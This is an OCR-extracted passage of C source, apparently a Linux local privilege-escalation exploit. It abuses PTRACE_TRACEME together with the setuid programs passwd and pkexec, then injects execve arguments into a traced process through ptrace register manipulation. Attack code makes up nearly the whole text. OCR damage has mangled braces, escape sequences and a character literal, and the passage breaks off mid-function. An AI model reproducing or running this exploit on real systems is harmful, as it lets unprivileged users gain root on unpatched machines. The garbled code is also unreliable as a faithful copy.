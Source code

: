 ```

    // task B
    pid_t middle = getpid();
    self_fd = open("/proc/self/exe",O_RDONLY);
    fprintf(stderr,"01 task B fork task Cn");

    pid_t child = fork();
    if(child==0)`{`
        // task C
        /*prctl(PR_SET_PDEATHSIG, SIGKILL);*/
        dup2(self_fd,42);

        int proc_fd = open(tprintf("/proc/%d/status",middle),O_RDONLY);
        char *needle = tprintf("nUid:t%dt0t", getuid());
        while(1)`{`
            char buf[1000];
            ssize_t buflen =  pread(proc_fd,buf,sizeof(buf)-1,0);
            buf[buflen]='';
            if(strstr(buf,needle))break;
        `}`

        fprintf(stderr,"03 task C trigger tracemen");
        ptrace(PTRACE_TRACEME,0,NULL,NULL);
        fprintf(stderr,"04 exec suid /usr/bin/passwdn");
        execl("/usr/bin/passwd","passwd",NULL);
    `}`


    fprintf(stderr,"02 task B execl suid pkexecn");
    dup2(self_fd,0);
    // stdout &lt; block pipe 下一次向 stdout 写 东西的时候会 block 住
    dup2(block_pipe[1],1);

    /*
     * setreuid(0, 0)      
     * setregid(1000, 1000)
     * setreuid(1000, 1000)
     * write something
     * */
    struct passwd *pw = getpwuid(getuid());
    execl("/usr/bin/pkexec","pkexec","--user",pw-&gt;pw_name,helper_path,"--help",NULL);
    err(1,"execl pkexecn");

`}`
static void force_exec_and_wait(pid_t pid, int exec_fd, char *arg0) `{`
    struct user_regs_struct regs;                                         
    struct iovec iov = `{` .iov_base = &amp;regs, .iov_len = sizeof(regs) `}`;    
    ptrace(PTRACE_SYSCALL, pid, 0, NULL);                           
    waitpid(pid, &amp;dummy_status, 0);                                 
    ptrace(PTRACE_GETREGSET, pid, NT_PRSTATUS, &amp;iov);
    /* set up indirect arguments */                                       
    unsigned long scratch_area = (regs.rsp - 0x1000) &amp; ~0xfffUL;          
    struct injected_page `{`                                                
      unsigned long argv[2];                                              
      unsigned long envv[1];                                              
      char arg0[8];                                                       
      char path[1];                                                       
    `}` ipage = `{`                                                           
      .argv = `{` scratch_area + offsetof(struct injected_page, arg0) `}`     
    `}`;                                                                    
    strcpy(ipage.arg0, arg0);                                             
    for (int i = 0; i &lt; sizeof(ipage)/sizeof(long); i++) `{`                
      unsigned long pdata = ((unsigned long *)&amp;ipage)[i];                 
```